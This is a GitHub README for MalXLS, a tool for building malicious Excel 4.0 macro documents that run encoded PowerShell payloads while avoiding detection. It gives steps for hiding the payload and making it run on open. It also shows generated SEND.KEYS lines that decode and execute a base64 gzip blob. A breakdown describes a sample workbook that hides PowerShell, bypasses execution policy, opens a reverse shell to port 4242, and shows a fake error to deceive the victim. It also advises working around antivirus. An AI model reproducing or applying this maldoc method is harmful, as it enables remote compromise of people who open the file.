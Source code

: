# Disclaimer

MalXLS is provided "as is", without warranty of any kind. The author of the project takes no responsibility for the abuse of anything provided and presented in the repository. Illegal usage of MalXLS is strictly prohibited.

# MalXLS

MalXLS is a quick way to encode undetected PowerShell payloads for Excel 4.0 Macro sheets.

Note that antivirus software may block the execution of certain PowerShell scripts even if the payload itself is undetected. It is the user's responsibility to work around the antivirus or disable it through other means.

### Why use the XLS format instead of XLSM? Why use Excel 4.0 Macros instead of VBA?

https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/

Read starting from the ``Support for XLM`` section.

## Getting Started

- Create a new Excel workbook and save it under the XLS format, then insert a new MS Excel 4.0 Macro sheet.
- (Optional) Delete the default sheet and rename the macro sheet to something less obvious
- Insert your payload into the macro sheet (preferrably in a random cell), then rename the first cell of the payload to ``Auto_Open`` to run the payload automatically when opening the file
  - For an example, see the provided ``Book1.xls`` file. It does not contain a cell named ``Auto_Open``
  - See [Usage](#usage) for instructions on generating a payload
- Activate cell ``A1`` so that it is not immediately obvious where the payload is when opening the file
- (Optional) Insert some faux data at the beginning of the sheet

### Prerequisites

[.NET Framework 4.8](https://dotnet.microsoft.com/download/dotnet-framework/net48) is required to run the binary that computes payloads.

If you are using Windows 10 with the May 2019 Update (1903) you are good to go, otherwise you need to install it.

### Usage

The payload generator can be downloaded from the [Releases](https://github.com/davidcristian/MalXLS/releases) page. The source code is available in the ``Generate Payload`` directory.

```
Usage: computepayload [OPTION]... [FILE]... [-C]
  -e    Compress a file using GZip and encode it into a base64 string
  -f    Fix the bad characters in a file (use on one-liners)
  -c    Copy the generated commands into the clipboard
```
Example:

```
.\ComputePayload.exe -e .\clear_history.ps1 -c 
=SEND.KEYS("$b=""H4sIAAAAAAAEAJWQQWsCMRCF7wv{+}h0Es7h42h14KggeRWkvVLkbwID2k7sgGshnZjMoi/vcm7hZb8NDeMpm8L{+}{+}9XqGOmMklqtxoizCEuGcPxkDqh/gFOZ1TfjAI6fMIpDZo2dRjsqztAeEmTJJO1In0zst/ExM4dyKAsUFVpVNyHKbwboWO00xx0XxzU7zvWZNNxFQ7pqqWAeefeRAELcASSzpi{+}spYNraY9n{+}EtIQm4hAW"; TRUE)
=SEND.KEYS("eGoxq3qPMNEh6D88BdrlR7xmGy42c72tyNGORUYnrGSBxohM{+}uocGQzcmed{+}DAZXaauMfYsXQOPwXmvfrjeydt60WOLO4DYYEyPnsPw0tefNSOVrzUWmKtbKLFSJcbdVrLXN6eTEhKrSdZOr0XsrIdHmb1g7zwvHtdIc9x/Okyd4vPSTO4l9C1/sVYH1SwIAAA=="";nal no New-Object -F;iex {(}no IO.StreamReader{(}no "; TRUE)
=SEND.KEYS("IO.Compression.GZipStream{(}{(}no IO.MemoryStream -A @{(},{[}Convert{]}::FromBase64String{(}$b{)}{)}{)},{[}IO.Compression.CompressionMode{]}::Decompress{)}{)}{)}.ReadToEnd{(}{)}~{NUMLOCK}"; TRUE)
```

``Book1.xls`` breakdown:

![](breakdown.png)

1.  Disable all warnings and errors so that the macro never breaks
2.  Open PowerShell in a minimized state (keystrokes still go through)
3.  Wait 1 second
4.  Hide the PowerShell window
5.  Continuation of 4.
6.  Wait 1 second
7.  Open a 32bit PowerShell session if the current one is 64bit
8.  Wait 1 second
9.  Set the execution policy to bypass for the current session so that any script may run
10. Wait 1 second
11. Start a reverse TCP connection to 192.168.144.134 on port 4242 (Note that this is blocked by Windows Defender)
12. Continuation of 11.
13. Continuation of 11.
14. Wait 1 second
15. Activate the Excel window
16. Display a faux error message about there being an error when opening the file
17. Close Excel (no warnings will be shown due to 1.)

## Known Issues

- Sending large commands requires multiple wait instructions (usually every 3 cells). The cause for this is unknown because the ``TRUE`` switch for ``SEND.KEYS`` should wait for the keystrokes to be processed before going to the next instruction, which is not always the case and results in mixed keystrokes and a broken payload.

## License

This project is licensed under the GPLv3 License - see the [LICENSE](LICENSE) file for details

Files belonging to other authors have their license in the same directory as them.

## Acknowledgments

* PowerShell decoding, decompression, execution, hide_window.ps1, and assure_32bit.ps1 snippets from MaMe82's [helper.js](https://github.com/RoganDawes/P4wnP1_aloa/blob/master/dist/HIDScripts/helper.js) file for [P4wnP1 A.L.O.A.
](https://github.com/RoganDawes/P4wnP1_aloa)
* PowerShell clear_history.ps1 script from [here](https://stackoverflow.com/a/38807689)
* PowerShell reverse_shell.ps1 script from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) (second one)
* [This](https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf) excellent book
